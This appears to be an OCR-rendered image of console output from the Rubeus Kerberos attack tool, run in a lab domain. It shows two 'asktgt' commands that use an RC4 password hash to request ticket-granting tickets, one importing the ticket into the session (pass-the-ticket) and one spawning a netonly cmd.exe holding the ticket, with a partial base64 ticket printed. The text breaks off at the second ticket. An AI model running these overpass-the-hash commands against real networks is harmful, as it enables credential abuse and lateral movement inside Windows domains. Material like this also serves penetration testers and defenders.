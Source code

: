     c:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
        ...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!


    C:\Rubeus>Rubeus.exe asktgt /user:harmj0y /domain:testlab.local /rc4:2b576acbe6bcfda7294d6bd18041b8fe /createnetonly:C:\Windows\System32\cmd.exe

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 4988
    [+] LUID            : 6241024

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Target LUID : 6241024
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 232 bytes
    [*] Received 1405 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
